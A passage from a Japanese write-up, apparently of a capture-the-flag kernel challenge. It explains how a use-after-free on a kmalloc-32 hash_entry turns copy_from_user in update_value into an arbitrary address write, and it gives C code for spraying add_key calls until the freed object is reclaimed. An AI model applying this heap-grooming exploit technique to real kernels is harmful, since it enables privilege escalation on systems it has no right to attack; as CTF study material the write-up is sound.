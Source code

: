 ```update_value.c
    for (temp = hashmap.buckets[idx]; temp != NULL; temp = temp->next)
    {
        if (temp->key == key)
        {
            if (temp->size != size)
            {
                if (temp->value)
                {
                    kfree(temp->value);
                }
                temp->value = NULL;
                temp->size = 0;
                temp_data = kzalloc(size, GFP_KERNEL);
                if (!temp_data || copy_from_user(temp_data, src, size))
                {
                    return INVALID;
                }
                temp->size = size;
                temp->value = temp_data;
            }
            else
            {
                if (copy_from_user(temp->value, src, size))
                {
                    return INVALID;
                }
            }
            return 0;
        }
    }
    return NOT_EXISTS;
}
```
この中の`if (copy_from_user(temp->value, src, size))`の部分で、仮に`temp->value`の保持するアドレスが不正に書き換えられるとするとAAWになる。この`temp`は`struct hash_entry`型であり、このサイズは*kmalloc-32*である。よって、先程までと全く同じ方法でkUAFを起こし、`temp`の中身を自由に操作することができる。
因みに、leakしたあとすぐに再び*threshold*分だけ`add_key()`して`resize()`を呼ばせて、kUAFを起こし、そのあとすぐに`add_key()`して目的のobjectを手に入れようとしたが手に入らなくて"？？？"になった。だが、よくよく考えたら`delete_value()`でkUAFを引き起こした後に、古い`buckets`の解放が起こるためスラブにはどんどんオブジェクトが蓄積していってしまう。よって、その状態で目的のkUAFされたオブジェクトを手に入ろうとしてもすぐには手に入らない。解決方法は単純で、削除したはずの要素から`get_value()`し続けて、それが今まで入っていた値と異なる瞬間が来たら、そのobjectが新たに`hash_entry`としてallocされたことになる。
```find-my-object.c
  for(int ix=threshold+1; 1==1; ++ix){ // find my cute object
    memset(buf, 'A', 0x20);
    add_key(hashfd, ix, 0x20, buf);
    get_value(hashfd, targetkey, 0x20, buf);
    if(((uint*)buf)[0] != 0x41414141){
      printf("[!] GOT kUAFed object!\n");;
      printf("[!] %lx\n", ((ulong*)buf)[0]);
      printf("[!] %lx\n", ((ulong*)buf)[1]);
      printf("[!] %lx\n", ((ulong*)buf)[2]);
      printf("[!] %lx\n", ((ulong*)buf)[3]);
      break;
    }
  }
```
